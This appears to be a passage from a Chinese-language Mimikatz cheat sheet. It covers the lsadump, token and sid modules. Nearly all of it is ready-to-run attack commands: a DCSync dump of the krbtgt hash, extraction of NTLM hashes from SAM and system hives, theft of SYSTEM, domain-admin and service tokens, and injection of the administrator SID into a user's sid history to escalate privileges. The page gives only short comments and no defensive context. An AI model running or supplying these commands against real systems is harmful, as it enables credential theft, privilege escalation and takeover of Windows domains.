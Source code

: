 该模块是对Local Security Authority（LSA安全身份验证进程）进行密码抓取的模块  

```Py
#通过域同步导出指定用户的hash，格式化输出，/all则是导出所有用户hash
lsadump::dcsync /domain:jevon.com /user:krbtgt /csv
#读取所有域用户hash，需要在域控上以管理员权限打开窗口
lsadump:lsa /patch
#从sam.hive和system.hive中获取ntlm hash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
lsadump::sam /sam:sam.hive /system:system.hive
#从本地SAM文件读取hash
privilege::debug
token::elevate
lsadump::sam
```

### token模块

与访问令牌相关的模块

```Py
#列出当前token信息
token::whoami /full
#列出当前系统存在的token，高权限列出的最全面
token::list
#窃取指定token id的token
token::elevate /id
#窃取System的token
token::elevate /system
#窃取域管理员的token
token::elevate /domainadmin
#窃取本地管理员的
token::elevate /admin
#窃取local service权限的token
token::elevate /localservice
#窃取network service权限的token
token::elevate /networkservice
#恢复之前的token
token::revert
```

### sid模块  

```Py
#查询指定对象的sid
sid::lookup /name:test
#查询指定sid对应的对象
sid::lookup /sid:x-x-x-x-x
=======================================
#通过samaccountname属性查询对象的一些信息
sid::query /sam:test
#通过samAccountName属性修改对象的sid
sid::patch
sid::modify /sam:test /new:x-x-x-x-x
#通过samAccountName属性给对象添加一个sid history属性
sid::patch
sid::add /sam:test /new:x-x-x-x-x-x-x
#清楚对象的sid history属性
sid::clear /sam:test
"还可以通过sid操作对象信息，将/sam参数换成/sid即可"
=======================================
#将administrator的sid添加到test的sid history中
sid::add /sam:test /new:administrator
```

